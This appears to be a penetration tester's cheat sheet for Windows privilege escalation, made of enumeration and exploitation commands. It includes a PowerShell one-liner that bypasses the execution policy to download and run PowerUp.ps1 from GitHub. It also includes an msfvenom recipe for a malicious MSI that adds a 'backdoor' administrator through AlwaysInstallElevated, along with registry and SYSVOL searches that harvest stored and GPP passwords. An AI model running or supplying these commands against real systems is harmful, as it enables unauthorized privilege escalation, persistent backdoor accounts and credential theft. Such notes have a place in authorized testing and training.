 Missing binaries?
```powershell
autorunsc64.exe -a t | more
```
(Part of SysInternals - Look for "File Not Found". Also try with `-a s`)

##### Startup
```
wmic startup get caption,command
```
Alternative: `Get-CimInstance Win32_StartupCommand`
```
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
dir "C:\Documents and Settings\All Users\Start Menu\Programs\Startup"
dir "C:\Documents and Settings\%username%\Start Menu\Programs\Startup"
```

##### Systemwide patches
```powershell
wmic qfe get Caption"," Description"," HotFixID"," InstalledOn
```
##### History
```powershell
Get-History; (Get-PSReadlineOption).HistorySavePath | cat -
```

##### LOLBAS
https://lolbas-project.github.io/#

##### PowerUp.ps1
https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
```
powershell -Version 2 -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1'); Invoke-AllChecks
```

### Registry misconfigurations
PS Alternative to `reg query` -> `Get-ItemProperty -Path 'Registry::HKEY_LOCAL_MACHINE\SOF...'`
##### Can .msi's run privileged without UAC?
```powershell
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
```
(-> `msiexec /quiet /qn /i c:\path\to\file.msi`)
##### Always install elevated
```powershell
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated; reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
Abuse with `msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi -o evil.msi` (or `-f msi-nouac`) and then `msiexec /quiet /qn /i C:\evil.msi`
##### Passwords set by GPOs
Look into `\\hostname\SYSVOL` to find Groups.xml. The AES-Key the password is encrypted with is known. Also look into cPassword attributes in `Services\Services.xml`, `ScheduledTasks\ScheduledTasks.xml`, `Printers\Printers.xml`, `Drives\Drives.xml`, `DataSources\DataSources.xml`. Automation: Powersploit `Get-GPPPassword`. Also:
```powershell
reg query HKLM /f password /t REG_SZ /s; reg query HKCU /f password /t REG_SZ /s
```
##### Creds for User Autologon?
```
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
```
